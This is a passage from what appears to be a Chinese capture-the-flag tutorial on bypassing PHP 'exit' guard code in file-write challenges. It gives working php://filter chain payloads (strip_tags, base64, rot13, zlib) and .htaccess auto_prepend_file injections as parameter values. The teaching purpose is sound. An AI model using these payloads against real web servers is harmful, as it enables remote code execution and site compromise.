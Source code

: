 这里构造一下编码内容后就是`<?cuc  cucvasb();?>`  
这里我们直接做playload传

![filterchain2.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-cb93c6fd38bf4d7cfc1f2f9908dc89bc1e434bc5.png)  
可以看见也是上传了不过这里有个问题就是前面已经有一个标签了所以如果服务器开了短标签，就没办法解析了

![filterchain3.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-048f03464f4e8ef44ac0d8651ba5b8c11fa925e2.png)

### .htaccess预包含

```cpp
$filename=php://filter/write=string.strip_tags/resource=.htaccess
$content=?>php_value%20auto_prepend_file%20delete.php
```

注意：string.strip\_tags在php7.3.0中被弃用了，所以会报错（不过好像phpstudy可以写入)并且注意下尽量在docker起环境，好像phpstudy你传就会500包含不了。  
其实很简单的就能理解，其实就是做了一个文件包含，先闭合了死亡代码后面写入自定义文件  
CTF中可以猜flag的路径从而完成包含，除了可以简单包含，也是可以利用伪协议或者utf-7进行包含

### 组合拳

这里就直接贴出来s1mple师傅的一些利用方式不做分析  
1、

```php
$filename='php://filter/string.strip_tags|convert.base64-decode/resource=s1mple.php'
$content='?>PD9waHAgcGhwaW5mbygpOz8+'
```

2、

```php
$filename=php://filter/zlib.deflate|string.tolower|zlib.inflate|/resource=s1mple.php
$content=php://filter/zlib.deflate|string.tolower|zlib.inflate|?><?php%0dphpinfo();?>/resource=s1mple.php
```

第二种(共用一个变量)
-----------

首先这里放出s1ample师傅的一种打法  
在php不为7的条件下

```php
?content=php://filter/write=string.strip_tags/?>php_value%20auto_prepend_file%20G:\s1mple.php%0a%23/resource=.htaccess
```

其实也就是写入.htaccess进行预包含和前面的原理是一样的

### 关于直接使用Base64的思考

在这个知识点上，很多师傅都没有成功。  
比如Cyc1e师傅写的

```php
php//filter/write=convertbase64decodePD9waHAgcGhwaW5mbygpOz8+/resource=Cyc1e.php
```
